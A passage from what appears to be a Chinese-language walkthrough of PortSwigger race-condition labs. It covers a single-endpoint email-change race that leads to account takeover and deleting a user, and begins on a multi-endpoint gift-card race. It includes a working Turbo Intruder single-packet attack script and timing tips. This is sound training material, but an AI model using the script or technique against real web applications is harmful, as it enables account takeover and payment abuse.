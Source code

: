 <img src="Racing and Smashing the state machine/image-20230813213040972-16922669383881.png" alt="image-20230813213040972" style="zoom:50%;" />

此时回到`GET /card`界面已经只有$19.25了，此时再购买即可。

<img src="Racing and Smashing the state machine/image-20230813213134092-16922669715043.png" alt="image-20230813213134092" style="zoom:33%;" />



## Lab: single-endpoint race conditions

https://portswigger.net/web-security/race-conditions/lab-race-conditions-single-endpoint

目标要把邮箱修改为`carlos@ginandjuice.shop`，而可以接触的只有`@exploit-0afe0072043930a78126f2df0155002a.exploit-server.net`下的邮箱。

使用 turbo Intruder 脚本单包攻击二十次

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    for i in range(20):
        engine.queue(target.req, str(i), gate='race1')

    engine.openGate('race1')


def handleResponse(req, interesting):
    table.add(req)
```

回到邮箱界面可以明显注意到修改地址和`send to`地址基本不匹配



<img src="Racing and Smashing the state machine/image-20230817121032403.png" alt="image-20230817121032403" style="zoom: 50%;" />

现在仅保留两个报文副本，一个为可接收的邮箱，一个为`carlos@ginandjuice.shop`

多次发送（亲测把`carlos@ginandjuice.shop`放在后面成功率高。虽然同个TCP但可能还是有微秒级影响）

![image-20230817121740600](Racing and Smashing the state machine/image-20230817121740600.png)

验证地址再删除`carlos`用户就可以了。

## Lab: Multi-endpoint race conditions

https://portswigger.net/web-security/race-conditions/lab-race-conditions-multi-endpoint

网站整体功能和第一个实验差不多，但是少了coupon多了一个可购买的礼品卡，花$10得到的礼品卡就是一串code，使用后获得$10然后该code销毁失效。

`Multi-endpoint`是指多步请求的多个结束位置利用，通常是第一个请求比第二个请求更复杂（或触发速率限制），从而在第一个请求`endpoint`之前的`Race Window`完成第二个请求的`endpoint`。
